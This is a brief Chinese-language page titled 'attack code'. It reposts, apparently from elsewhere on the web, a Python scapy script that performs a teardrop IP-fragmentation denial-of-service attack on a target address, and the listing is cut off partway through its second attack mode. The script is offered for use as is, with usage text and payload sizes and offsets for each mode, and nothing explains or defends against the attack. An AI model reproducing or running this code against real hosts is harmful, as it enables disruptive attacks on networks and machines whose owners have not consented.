 # 攻击代码
从网络上down了一份如下:
```python
#!/usr/bin/env python
import sys
from scapy.all import *

total = len(sys.argv)
if total != 3:
  print "Performs teardrop attack from Kali Linux"
  print " "
  print "Usage: ./tear TARGET-IP ATTACK-CODE"
  print "   Attack Codes:"
  print "   0: small payload (36 bytes), 2 packets, offset=3x8 bytes"
  print "   1: large payload (1300 bytes), 2 packets, offset=80x8 bytes"
  print "   2: large payload (1300 bytes), 12 packets, offset=80x8 bytes"
  print "   3: large payload (1300 bytes), 2 packets, offset=3x8 bytes"
  print "   4: large payload (1300 bytes), 2 packets, offset=10x8 bytes"
  

target=str(sys.argv[1])
attack=sys.argv[2]

print 'Attacking target ' + target + ' with attack ' + attack

if attack == '0':
  print "Using attack 0"
  size=36
  offset=3
  load1="\x00"*size
  
  i=IP()
  i.dst=target
  i.flags="MF"
  i.proto=17
  
  size=4
  offset=18
  load2="\x00"*size

  j=IP()
  j.dst=target
  j.flags=0
  j.proto=17
  j.frag=offset
  
  send(i/load1)
  send(j/load2)

elif attack == '1':
  print "Using attack 1"
  size=1300
  offset=80
  load="A"*size
  
  i=IP()
  i.dst=target
  i.flags="MF"
  i.proto=17
  
  j=IP()
  j.dst=target
```